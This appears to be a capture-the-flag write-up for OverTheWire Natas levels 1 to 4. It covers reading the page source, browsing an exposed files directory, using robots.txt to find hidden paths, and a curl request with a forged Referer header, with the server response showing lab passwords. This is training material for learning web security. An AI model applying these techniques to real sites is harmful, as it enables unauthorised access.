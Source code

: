 # Level 1
Solution:
after you open link, open inspector check html code there you can find password

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
